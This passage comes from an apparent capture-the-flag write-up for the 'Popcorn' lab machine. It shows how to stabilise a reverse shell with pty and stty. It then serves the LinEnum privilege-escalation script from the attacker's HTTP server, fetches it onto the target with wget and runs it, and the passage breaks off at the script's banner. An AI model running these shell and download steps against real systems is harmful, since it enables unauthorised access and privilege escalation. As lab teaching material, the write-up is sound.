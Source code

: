 to get a proper shell with auto-complete, ability to clear screen use these commands
```
python -c "import pty;pty.spawn('/bin/bash')"
ctrl+Z (to background)
stty raw -echo && fg
export TERM=xterm
```

now that we got user.txt we should try for privilege escalation  
so start a python http server in /opt/privEsc/LinEnum directory and wget the LinEnum.sh file in the shell that we got above  
```
root@kali:/opt/privEsc/LinEnum# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
$ python -c "import pty; pty.spawn('/bin/bash');"                                                                                                                                                                  
www-data@popcorn:/var/www/rename$ cd /tmp
cd /tmp
www-data@popcorn:/tmp$ ls
ls
www-data@popcorn:/tmp$ wget http://10.10.14.57:8000/LinEnum.sh
wget http://10.10.14.57:8000/LinEnum.sh
--2020-03-13 09:14:02--  http://10.10.14.57:8000/LinEnum.sh
Connecting to 10.10.14.57:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: `LinEnum.sh'

100%[======================================>] 46,631      57.0K/s   in 0.8s    

2020-03-13 09:14:03 (57.0 KB/s) - `LinEnum.sh' saved [46631/46631]

www-data@popcorn:/tmp$ ls
ls
LinEnum.sh
```

now we can just run LinEnum.sh and analyse the output
```
www-data@popcorn:/tmp$ ./LinEnum.sh                                                                                                                                                                                
./LinEnum.sh                                                                                                                                                                                                       
                                                                                                                                                                                                                   
#########################################################                                                                                                                                                          
# Local Linux Enumeration & Privilege Escalation Script #                                                                                                                                                          
#########################################################                                                                                                                                                          
# www.rebootuser.com                                                                                                                                                                                               
# version 0.982                                                                                                                                                                                                    
                                                                                                                                                                                                                   
```